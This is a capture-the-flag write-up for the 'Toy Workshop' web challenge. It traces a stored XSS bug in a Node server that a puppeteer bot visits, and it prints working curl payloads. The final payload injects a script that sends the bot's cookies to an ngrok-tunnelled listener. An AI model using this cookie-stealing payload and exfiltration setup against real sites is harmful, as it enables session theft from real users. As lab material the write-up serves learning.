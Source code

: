 ## Topic: Web
### Challenge Name: Toy Workshop

#### Challenge Prompt:
`he work is going well on Santa's toy workshop but we lost contact with the manager in charge! We suspect the evil elves have taken over the workshop, can you talk to the worker elves and find out?`

#### Walkthrough:
This challenge has both a downloadable part and a docker service to accompany it. Download the challenge archive and extract it to see it's a node webserver.  
Start the docker service, going to that service brings us to a fun little animation of packages moving on a conveyor belt.  
Looking through the code given to use, we can see the internal workings of what is presumably running on the docker service. This webserver has a couple interesting files, notably:
`database.js`  
`routes/index.js`  
`bot.js`  

Lets look at `routes/index.js` first. We can see a route to `/api/submit` that allows post requests. It looks like its adding a "query" in a sqlite3 db that gets retrieved later. We see there's another endpoint at `/queries` that displays the queries submitted to `/api/submit` endpoint. It has a localhost restriction on it though, so my first though it some sort of xss attack later on.  
Switching over to `bot.js`, we see this is where the flag is being set as cookies and where puppeteer is being setup to navigate to the `/queries` endpoint as localhost. This has confirmed the earlier suspicion that it is an XSS attack.

Looking at `database.js`, we can see the logic for inserting queries into the database and for displaying them later on. I got stuck on this code for awhile, but it's not as important as the other two.  

Lets send some test queries to `/api/submit` using curl and see what we get back.

Command: `curl -H "Content-Type: application/json" -d '{"query": "1234"}' -X POST 138.68.184.31:30881/api/submit`   

Response: `{"message":"Your message is delivered successfully!"}`

We knew what parameters to supply due to having access to the source code, more specifically that information is found in `routes/index.js` on line 15: `const { query } = req.body;`  

So we know so far that it's most likely an XSS attack since puppeteer is being used to access the `/queries` endpoint as localhost so lets send some payloads and see what happens.  
Command: `curl -H "Content-Type: application/json" -d '{"query": "<script>console.log(document.cookie)</script>}' -X POST http://138.68.184.31:32360/api/submit`  
Response: `{"message":"Your message is delivered successfully!"}`

But we have an issue, we can't access `/queries` where the XSS attack will be executed, also this attack will only display our cookies to the console. Not send them to a place we can access. Luckily there's a solution to this issue and it's called `ngrok`.  

Ngrok allows you to tunnel a localhost webserver onto the wide internet. We can do this by first creating a directory for the webserver, then running `python -m http.server &` and then `ngrok http 8000`, after executing that command we'll be given a domain name to use in our attacks.

Now lets try an attack from a really useful resource over at https://0xhorizon.eu/cheat-sheet/xss/. The "get cookies from another user" is exactly what we're looking for. Modifying it with out ngrok domain gives us the following payload:  
`<script>document.location.replace(\"http://2774-2601-602-87f-9853-7df0-274a-fd62-32ae.ngrok.io?cookie=\"+document.cookie)</script>"` *note the escaped strings, that got me for awhile*

Inserting this into our curl command gives us the following complete payload:
`curl -H "Content-Type: application/json" -d '{"query": "<script>document.location.replace(\"http://2774-2601-602-87f-9853-7df0-274a-fd62-32ae.ngrok.io?cookie=\"+document.cookie)</script>"}' -X POST 138.68.184.31:30881/api/submit` Execute this payload and wait a couple of seconds and the flag should show in the terminal tab with ngrok:
![[Pasted image 20211202182728.png]]
